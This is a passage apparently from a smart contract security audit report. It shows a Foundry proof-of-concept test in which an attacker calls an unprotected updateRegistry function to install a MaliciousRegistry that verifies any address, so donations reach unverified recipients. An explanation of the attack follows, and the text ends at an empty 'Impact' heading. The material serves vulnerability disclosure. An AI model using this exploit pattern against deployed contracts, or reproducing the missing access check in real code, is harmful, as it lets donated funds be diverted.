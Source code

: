 ```solidity
        vm.prank(admin);
        registryContract.verifyCharity(charity);
    }

    function testChangeRegistryToAttacker() public {
        MaliciousRegistry maliciousRegistry = new MaliciousRegistry();
        address attacker = makeAddr("attacker");  

        // Change the registry address to the attacker's malicious registry
        vm.prank(attacker);
        charityContract.updateRegistry(address(maliciousRegistry));

        // Now, the donate function will accept any address as a verified charity
        // Create a new address that is not registered or verified
        address newCharity = makeAddr("newCharity");

        // Fund the donor
        vm.deal(donor, 10 ether);

        // Donor donates to the unverified newCharity
        vm.prank(donor);
        charityContract.donate{value: 10 ether}(newCharity);

        // Verify that the donation was sent to the newCharity
        uint256 charityBalance = newCharity.balance;
        assertEq(charityBalance, 10 ether);
    }
}

/**
 * @title MaliciousRegistry
 * @dev A malicious implementation of a registry contract that always returns true for verification
 */
contract MaliciousRegistry {
    function isVerified(address) public pure returns (bool) {
        return true;
    }
}
```

**Explanation:**

- **Constructor Correction:** The `GivingThanks` contract's constructor is fixed to properly set the `registry` variable.
- **Attack Steps:**
  - The attacker deploys a `MaliciousRegistry` contract that always returns `true` for `isVerified`.
  - The attacker calls `updateRegistry` to replace the legitimate registry with the malicious one.
  - A donor attempts to donate to an unverified and unregistered charity (`newCharity`), which is accepted due to the malicious registry.
  - The `donate` function proceeds, and the unverified `newCharity` receives the donation.

## Impact

